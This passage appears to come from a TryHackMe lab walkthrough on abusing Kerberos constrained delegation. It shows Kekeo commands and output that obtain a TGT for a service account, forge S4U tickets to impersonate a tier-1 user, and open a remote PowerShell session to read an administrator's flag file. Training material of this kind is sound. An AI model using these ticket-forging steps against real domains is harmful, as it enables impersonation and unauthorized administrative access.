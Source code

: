 We first need to generate a TGT that can be used to generate tickets for the HTTP and WSMAN services:

```shell-session

kekeo # tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:redacted
Realm        : za.tryhackme.loc (za)
User         : svcIIS (svcIIS)
CName        : svcIIS   [KRB_NT_PRINCIPAL (1)]
SName        : krbtgt/za.tryhackme.loc  [KRB_NT_SRV_INST (2)]
Need PAC     : Yes
Auth mode    : ENCRYPTION KEY 23 (rc4_hmac_nt      ): 43460d636f269c709b20049cee36ae7a
[kdc] name: THMDC.za.tryhackme.loc (auto)
[kdc] addr: 172.31.1.101 (auto)
  > Ticket in file 'TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi'
```

**Parameters explained**:

* user - The user who has the constrained delegation permissions.
* domain - The domain that we are attacking since Kekeo can be used to forge tickets to abuse cross-forest trust.
* password - The password associated with the svcIIS account.

Now that we have the TGT for the account that can perform delegation, we can forge TGS requests for the account we want to impersonate. We need to perform this for both HTTP and WSMAN to allow us to create a PSSession on THMSERVER1:

```shell-session

kekeo # tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc
Ticket  : TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
  [krb-cred]     S: krbtgt/za.tryhackme.loc @ ZA.TRYHACKME.LOC
  [krb-cred]     E: [00000012] aes256_hmac
  [enc-krb-cred] P: svcIIS @ ZA.TRYHACKME.LOC
  [enc-krb-cred] S: krbtgt/za.tryhackme.loc @ ZA.TRYHACKME.LOC
  [enc-krb-cred] T: [4/30/2022 1:29:00 PM ; 4/30/2022 11:29:00 PM] {R:5/7/2022 1:29:00 PM}
  [enc-krb-cred] F: [40e10000] name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
  [enc-krb-cred] K: ENCRYPTION KEY 18 (aes256_hmac      ): 548e500d4ee2f5c61710254ea9dd43e2ce0123026d329c97e512695e2f1777a7
  [s4u2self] t1_trevor.jones
[kdc] name: THMDC.za.tryhackme.loc (auto)
[kdc] addr: 172.31.1.101 (auto)
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_svcIIS@ZA.TRYHACKME.LOC.kirbi'
Service(s):
  [s4u2proxy] http/THMSERVER1.za.tryhackme.loc
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi'
```

**Parameters explained**:

* tgt - We provide the TGT that we generated in the previous step.
* user - The user we want to impersonate. Since t2\_ accounts have administrative access over workstations, it is a safe assumption that t1\_ accounts will have administrative access over servers, so choose a t1\_ account that you would like to impersonate.
* service - The services we want to impersonate using delegation. We first generate a TGS for the HTTP service. Then we can rerun the same command for the WSMAN service.


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> type C:\Users\Administrator\Desktop\flag2.txt